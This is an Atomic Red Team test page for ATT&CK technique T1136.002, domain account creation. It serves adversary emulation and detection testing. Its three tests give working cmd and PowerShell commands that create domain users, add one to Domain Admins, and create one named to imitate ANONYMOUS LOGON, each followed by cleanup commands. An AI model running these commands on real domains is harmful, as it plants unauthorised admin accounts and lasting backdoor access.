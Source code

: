 # T1136.002 - Create Account: Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)

- [Atomic Test #3 - Create a new Domain Account using PowerShell](#atomic-test-3---create-a-new-domain-account-using-powershell)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user
Creates a new domain admin user in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** fcec2963-9951-4173-9bfa-98d8b7834e62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | string | T1136.002_Admin|
| password | Password of the user to create | string | T1136_pass123!|
| group | Domain administrator group to which add the user to | string | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON
Create a new account similar to ANONYMOUS LOGON in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** dc7726d2-8ccb-4cc6-af22-0d5afb53a548





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | string | ANONYMOUS  LOGON|
| password | Password of the user to create | string | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #3 - Create a new Domain Account using PowerShell
Creates a new Domain User using the credentials of the Current User

**Supported Platforms:** Windows


**auto_generated_guid:** 5a3497a4-1568-4663-b12a-d4a5ed70c7d7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Name of the Account to be created | string | T1136.002_Admin|
| password | Password of the Account to be created | string | T1136_pass123!|


#### Attack Commands: Run with `powershell`! 


```powershell
$SamAccountName = '#{username}'
$AccountPassword = ConvertTo-SecureString '#{password}' -AsPlainText -Force
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$Context = New-Object -TypeName System.DirectoryServices.AccountManagement.PrincipalContext -ArgumentList ([System.DirectoryServices.AccountManagement.ContextType]::Domain)
$User = New-Object -TypeName System.DirectoryServices.AccountManagement.UserPrincipal -ArgumentList ($Context)
$User.SamAccountName = $SamAccountName
$TempCred = New-Object System.Management.Automation.PSCredential('a', $AccountPassword)
$User.SetPassword($TempCred.GetNetworkCredential().Password)
$User.Enabled = $True
$User.PasswordNotRequired = $False
$User.DisplayName = $SamAccountName
$User.Save()
$User
```

#### Cleanup Commands:
```powershell
cmd /c "net user #{username} /del >nul 2>&1"
```





<br/>
